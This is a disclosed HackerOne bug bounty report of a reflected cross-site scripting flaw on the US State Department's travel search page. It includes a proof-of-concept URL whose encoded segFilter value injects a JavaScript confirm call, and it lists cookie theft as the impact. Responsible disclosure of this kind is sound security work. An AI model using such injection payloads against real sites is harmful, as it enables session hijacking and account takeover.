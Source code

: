 # RXSS on https://travel.state.gov/content/travel/en/search.html

## Report Details
- **Report ID**: 1818628
- **URL**: https://hackerone.com/reports/1818628
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-29T17:49:06.123Z
- **Disclosed**: 2023-03-08T01:59:30.205Z

## Reporter
- **Username**: tmz900
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: us-department-of-state

## Vulnerability Information
## Summary:
Hello team,
I Found RXSS via `segFilter` parameter on url : `https://travel.state.gov/content/travel/en/search.html/?search_input=hello&data-sia=false&data-con=false&search_btn=&segFilter=x%27%29%3bconfirm%28%271`
Open url, you will see an alert box pop up:

{F2096019}

## Impact

Steal session cookies to account takeovers
execute JS code

## Attachments
- Screenshot_from_2022-12-30_00-47-14.png
